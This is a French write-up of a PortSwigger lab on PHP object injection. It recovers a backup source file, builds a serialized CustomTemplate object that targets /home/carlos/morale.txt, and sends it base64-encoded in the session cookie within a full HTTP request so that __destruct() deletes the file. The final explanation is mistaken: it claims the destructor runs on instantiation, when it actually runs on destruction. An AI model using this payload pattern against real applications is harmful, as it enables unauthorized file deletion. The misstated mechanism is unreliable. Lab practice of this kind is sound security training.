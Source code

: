 # Lab

https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php

## Solution

Quand la home page charge, on voit qu'il fait référence à un fichier PHP `/libs/CustomTemplate.php`.

Etant donné que c'est du PHP, on a pas accès au code source, mais on peut essayer de le télécharger en trouvant un fichier de backup.

On peut essayer de télécharger le fichier `CustomTemplate.php~` qui est un fichier de backup créé par l'éditeur de texte `nano`.

```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

En regardant ce code on voit que la fonction magique `__destruct()` permet de supprimer le fichier de lock de l'ojet CustomTemplate.

Si on créé une chaine de caractères qui correspond à un objet CustomTemplate ayant pour `lock_file_path` la valeur `/home/carlos/morale.txt` on devrait pouvoir supprimer le fichier `morale.txt` injectant l'objet serializé à un endroit où il serait désérialisé.

`O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`

Quand on se connecte sur le site, on a un cookie session qui correspond à l'utilisateur connecté : `Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJia3FuZ3pmNnNpNGd6ZjZlNm5meW1mNGdkODFiMzEwaCI7fQ%3d%3d`

La chaine de caractères est encodée en base64, on peut la décoder : `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"bkqngzf6si4gzf6e6nfymf4gd81b310h";}`

Injectons notre objet serializé dans le cookie session : `Cookie: session=TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3d%3d`

Et on envoie la requête via la page d'accueil :

```http
GET / HTTP/2
Host: 0a7400c504a53dc384d3a0fe00660017.web-security-academy.net
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Upgrade: websocket
Origin: https://0a7400c504a53dc384d3a0fe00660017.web-security-academy.net
Sec-Websocket-Version: 13
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3d%3d
Sec-Websocket-Key: YxcKFuDLAFKYNzFTZyOwnA==
```

Ce qui valide le lab puisque la méthode `__destruct()` est une méthode magique qui est appelée automatiquement quand l'objet est instancié. 